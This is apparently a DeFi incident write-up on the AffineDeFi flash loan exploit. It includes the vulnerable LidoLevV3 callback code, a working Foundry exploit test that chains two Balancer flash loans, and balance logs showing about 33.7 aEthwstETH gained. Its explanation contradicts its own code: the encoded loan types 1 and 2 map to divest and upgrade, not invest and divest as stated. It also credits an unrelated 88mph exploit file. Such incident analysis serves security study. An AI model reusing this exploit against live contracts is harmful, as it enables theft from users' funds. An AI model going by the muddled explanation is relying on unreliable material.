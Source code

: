 
# AffineDeFi


## What's AffineDeFi?

Affine is the world's first cross-chain investment and savings app. We make it simple for users to onboard funds in an efficient and affordable manner using Polygon while gaining access to investment opportunities on multiple chains.

## Amount stolen
~$88K USD

Feb 1, 2024

## Vulnerability
Flash loan attack

## Analysis

The exploiter successfully repaid the initial flash loan using a subsequent flash loan.

### Vulnerable code

```solidity
    /// @notice Callback called by balancer vault after flashloan is initiated.
    function _flashLoan(uint256 amount, LoanType loan, address recipient) internal {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

```solidity

function receiveFlashLoan(
    ERC20[] memory, /* tokens */
    uint256[] memory amounts,
    uint256[] memory, /* feeAmounts */
    bytes memory userData
) external override {
    if (msg.sender != address(BALANCER)) revert onlyBalancerVault();

    uint256 ethBorrowed = amounts[0];

    // Decode the userData to get the LoanType
    (LoanType loan, address newStrategy) = abi.decode(userData, (LoanType, address));

    // Switch or if-else statement to handle different LoanTypes
    if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
    } else if (loan == LoanType.invest) {
        _addToPosition(ethBorrowed);
    } else if (loan == LoanType.upgrade) {
        _payDebtAndTransferCollateral(LidoLevV3(payable(newStrategy)));
    } else {
        _rebalancePosition(ethBorrowed, loan);
    }

    // Payback wETH loan
    WETH.safeTransfer(address(BALANCER), ethBorrowed);
}
```

# proof of concept (PoC) 


### first flash loan:
-  `flashloan` is called with `amount[0] = 318973831042619036856`
- The Balancer pool initiates a flash loan of WETH to the `LidoLevV3` contract, using the specified `userencodeData` 


`userencodeData` is to determine the action

LidoLevV3.sol
```solidity
   /// @notice The different reasons for a flashloan.
    enum LoanType {
        invest,
        divest,
        upgrade,
        incLev,
        decLev
    }
```

### LidoLevV3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the flash loan.
- The `LoanType.invest` case is triggered in the `receiveFlashLoan` function.
- `_addToPosition` is called, which involves borrowing WETH, converting it to wstETH, depositing in AAVE, and borrowing again.

### Second Flash Loan:
- `flashloan` is called wiht `amount2[0] = 0`.
- The Balancer pool initiates a flash loan of 0 WETH to the `LidoLevV3` contract,
- using the specified `userencodeData2`. 

### LidoLev3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the second flash loan.
- The `LoanType.divest` case is triggered in the `receiveFlashLoan` function.
- `_endPosition` is called, which involves repaying debt in AAVE, unlocking collateral and converting it back to ETH.

```solidity

 function testExploit() external {
        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance before attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );

        bytes memory userencodeData = abi.encode(1, address(this));
        bytes memory userencodeData2 = abi.encode(2, address(this));
        uint256[] memory amount = new uint256[](1);
        uint256[] memory amount2 = new uint256[](1);
        IERC20[] memory token = new IERC20[](1);

        token[0] = IERC20(WETH);
        amount[0] = 318973831042619036856;
        amount2[0] = 0;
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount, userencodeData);
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount2, userencodeData2);

        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance after attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );
    }
```

### Balance Check:

Logs:
```
  Exploiter aEthwstETH balance before attack: 0.000000000000000000
  Exploiter aEthwstETH balance after attack: 33.698806193381635860
```

### Funds Movement Analysis:
- The first flash loan involves borrowing WETH, leveraging it in the `LidoLevV3` contract, and repaying the flash loan.
- The second flash loan involves repaying the flash loan without borrowing additional funds.


### Exploited Code
When the `LoanType` is `LoanType.divest`, the `_endPosition` function is called, which handles the divestment logic and ultimately repays the first flash loan. This ensures that the funds borrowed in the first flash loan are used as part of the divestment process, resulting in the repayment of the initial flash loan.

```solidity
if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
```


## Conclusion
While the first flash loan involved leveraging and borrowing funds,
the second flash loan aimed at repaying the flash loan without additional borrowing.
The funds moved within the LidoLevV3 contract during the flash loan transactions. 
The contract logs the balance of aEthwstETH before and after the flash loan attacks.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
